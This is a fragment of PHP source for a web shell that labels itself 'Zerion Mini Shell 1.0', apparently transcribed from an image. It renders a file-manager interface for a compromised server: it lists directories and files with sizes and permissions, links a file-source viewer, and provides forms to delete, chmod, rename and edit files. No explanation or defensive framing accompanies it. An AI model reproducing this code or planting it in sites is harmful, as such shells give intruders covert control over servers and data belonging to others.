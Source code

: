 ```
elseif(!is_readable("$path/$dir")) echo '<font color="red">';
echo perms("$path/$dir");
if(is_writable("$path/$dir") || !is_readable("$path/$dir")) echo '</font>';

echo "</center></td>
<td><center><form method=\"POST\" action=\"?option&path=$path\">
<select name=\"opt\">
<option value=\"\"></option>
<option value=\"delete\">Delete</option>
<option value=\"chmod\">Chmod</option>
<option value=\"rename\">Rename</option>
</select>
<input type=\"hidden\" name=\"type\" value=\"dir\">
<input type=\"hidden\" name=\"name\" value=\"$dir\">
<input type=\"hidden\" name=\"path\" value=\"$path/$dir\">
<input type=\"submit\" value=\">\" />
</form></center></td>
</tr>";
}
echo '<tr class="first"><td></td><td></td><td></td><td></td></tr>';
foreach($scandir as $file){
if(!is_file("$path/$file")) continue;
$size = filesize("$path/$file")/1024;
$size = round($size,3);
if($size >= 1024){
$size = round($size/1024,2).' MB';
}else{
$size = $size.' KB';

}

echo "<tr>
<td><a href=\"?filesrc=$path/$file&path=$path\">$file</a></td>
<td><center>".$size."</center></td>
<td><center>";
if(is_writable("$path/$file")) echo '<font color="green">';
elseif(!is_readable("$path/$file")) echo '<font color="red">';
echo perms("$path/$file");
if(is_writable("$path/$file") || !is_readable("$path/$file")) echo '</font>';
echo "</center></td>
<td><center><form method=\"POST\" action=\"?option&path=$path\">
<select name=\"opt\">
<option value=\"\"></option>
<option value=\"delete\">Delete</option>
<option value=\"chmod\">Chmod</option>
<option value=\"rename\">Rename</option>
<option value=\"edit\">Edit</option>
</select>
<input type=\"hidden\" name=\"type\" value=\"file\">
<input type=\"hidden\" name=\"name\" value=\"$file\">
<input type=\"hidden\" name=\"path\" value=\"$path/$file\">
<input type=\"submit\" value=\">\" />
</form></center></td>
</tr>";
}
echo '</table>
</div>';
}
echo '<center><br />Zerion Mini Shell <font color="green">1.0</font></center>
</BODY>
</HTML>';
function perms($file){
$perms = fileperms($file);
```